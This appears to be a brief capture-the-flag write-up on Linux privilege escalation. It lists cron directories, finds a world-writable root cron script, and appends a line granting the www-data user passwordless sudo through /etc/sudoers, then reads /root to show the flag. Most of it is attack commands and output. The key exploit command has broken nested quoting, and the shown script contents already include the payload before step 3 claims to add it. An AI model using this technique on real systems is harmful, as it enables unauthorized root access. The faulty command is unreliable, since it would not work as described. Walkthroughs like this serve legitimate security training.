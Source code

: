 # PRIVILEGE ESCALATION

One of the things of the Linux privilege escalation techniques are to check the cron jobs:

1. Check the cron jobs:
	ls -al /etc/cron* /etc/at*

/etc/cron.hourly:
total 16
drwxr-xr-x   2 root     root     4096 Aug 27 03:20 .
drwxr-xr-x 107 root     root     4096 Oct 11 19:42 ..
-rw-r--r--   1 root     root      102 Nov 16  2017 .placeholder
-rwxrwxrwx   1 www-data www-data   56 Oct 11 19:16 cuiteur-cleaning

2. It can be seen from the output that the cuiteur-cleaning we have write access with the user we have logged in:

os-shell> cat /etc/cron.hourly/cuiteur-cleaning
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers'

3. The vulnerability has been found now we have to exploit it, we write the user www-data into the /etc/sudoers file so it can have sudo access:

echo "echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers" >> /etc/cron.hourly/cuiteur-cleaning

4. After the hour the command will be executed.
5. sudo ls /root

os-shell> sudo ls /root
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'flag{9f1f16811b12bbfb21a3b0fbad66c27d3b5083102aca73}.jpg'

